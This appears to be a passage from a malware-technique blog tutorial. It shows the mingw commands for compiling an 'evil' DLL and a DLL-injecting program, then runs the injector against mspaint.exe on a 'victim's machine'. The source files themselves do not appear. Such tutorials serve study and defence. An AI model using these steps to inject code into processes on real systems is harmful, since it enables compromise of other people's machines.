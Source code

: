 ### demo 2

Let's go to see everything in action again.    

First of all, compile our "evil" DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![injection](./images/83/2022-12-21_22-02.png){width="80%"}    

At the next step, compile our DLL injecting malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack2.cpp -o hack2.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -ldbghelp
```

![injection](./images/83/2022-12-21_22-04.png){width="80%"}    

And finally, run it for `mspaint.exe` process on victim's machine (`Windows 10 x64` in my case):    

```powershell
.\hack2.exe <mspaint PID>
```
